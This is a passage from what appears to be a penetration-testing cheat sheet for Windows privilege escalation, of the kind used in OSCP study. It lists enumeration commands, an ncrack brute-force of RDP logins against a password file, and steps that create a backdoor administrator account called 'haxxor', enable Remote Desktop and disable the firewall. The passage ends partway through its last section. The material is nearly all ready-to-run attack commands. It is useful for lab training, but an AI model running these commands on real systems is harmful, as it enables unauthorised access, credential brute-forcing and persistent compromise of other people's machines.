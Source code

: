 ### Programs running as root/system



### Installed software

```
# Metasploit
ps

tasklist /SVC
net start
reg query HKEY_LOCAL_MACHINE\SOFTWARE
DRIVERQUERY

Look in:
C:\Program files
C:\Program files (x86)
Home directory of the user
```


### Scheduled tasks

```
schtasks /query /fo LIST /v

Check this file:
c:\WINDOWS\SchedLgU.Txt
```

### Weak passwords

Remote desktop

```
ncrack -vv --user george -P /root/oscp/passwords.txt rdp://INSERTIPADDRESS
```

### Useful commands


**Add user and enable RDP**

```
net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD

# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Turn firewall off
netsh firewall set opmode disable

Or like this
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

If you get this error:

"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?
Failed to connect, CredSSP required by server.""

Add this reg key:

```